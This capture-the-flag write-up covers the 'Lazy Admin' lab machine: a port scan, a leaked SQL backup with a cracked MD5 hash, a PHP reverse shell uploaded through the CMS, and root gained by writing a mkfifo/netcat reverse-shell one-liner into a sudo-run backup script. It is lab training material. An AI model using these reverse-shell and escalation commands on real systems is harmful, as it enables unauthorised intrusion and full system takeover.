



<h1>Lazy Admin</h1>
<h3>Nmap Scan</h3>

I started with:

`nmap -sC -sV`

`22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel`

We can see that <em><strong>SSH (22) and HTTP (80) are open</strong><em>. The web server is running Apache 2.4.18 on Ubuntu.

When visiting `http://host:80`, we see the default Apache landing page.

<h4>Directory Enumeration</h4>

I used:

`feroxbuster -u http://<host>/`

This revealed the following interesting <em><strong>paths</strong><em>:

<http://host/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql>

<http://host/content/as/>

In the first link, I found a username: <em><strong>manager</strong><em> and a hash:

`42f749ade7f9e195bf475f37a44cafcb:Password123`

<h4>Hash Cracking</h4>

I cracked the hash using:

`hashcat -m 0 42f749ade7f9e195bf475f37a44cafcb /usr/share/wordlists/rockyou.txt`

After cracking it, I logged in at:

<http://host/content/as/>

using those credentials.

<h4>Gaining a Shell</h4>

Inside the platform, any <em><strong>media center or plugin</strong><em> is likely to be vulnerable.

First, I opened a listener:

`nc -lvnp 4444`

Then, I uploaded a  <em><strong>reverse shell</strong><em> as a <em><strong>ZIP</strong><em> file and accessed the uploaded file to trigger it.

Reverse shell used:
<https://github.com/Arrexel/phpbash/blob/master/phpbash.php>

The exploit worked, and I obtained a shell.

<h4>User Flag</h4>

Inside /home/itguy, I found the `user.txt` file.

I also noticed a script called <em><strong>backup.pl</strong><em> that uses `/etc/copy.sh`.

<h4>Privilege Escalation</h4>

Since <em><strong>backup.pl</strong><em> executes  <em><strong>/etc/copy.sh</strong><em>, I modified copy.sh to include a reverse shell:

`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc <yourip> 4443 > /tmp/f" > /etc/copy.sh`

Then, I opened another listener:

`nc -lvnp 4443`

Next, I executed the script with elevated privileges:

`sudo /usr/bin/perl /home/itguy/backup.pl`

After running the command, I received a root shell. Running `id` confirmed that I had root privileges.

<h4>Root Flag</h4>

The root flag is located in the root directory:

`cat /root/root.txt`
